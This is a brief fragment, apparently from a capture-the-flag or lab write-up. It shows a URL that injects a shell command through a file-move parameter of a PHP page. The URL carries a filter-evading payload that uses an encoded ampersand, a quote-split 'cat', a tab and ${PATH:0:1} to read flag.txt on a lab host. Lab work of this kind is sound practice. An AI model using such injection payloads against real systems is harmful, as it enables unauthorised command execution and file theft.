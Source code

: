 Used the following to inject a command:
http://94.237.49.166:35145//index.php?to=tmp%26c%27a%27t%09${PATH:0:1}flag.txt&from=787113764.txt&finish=1&move=1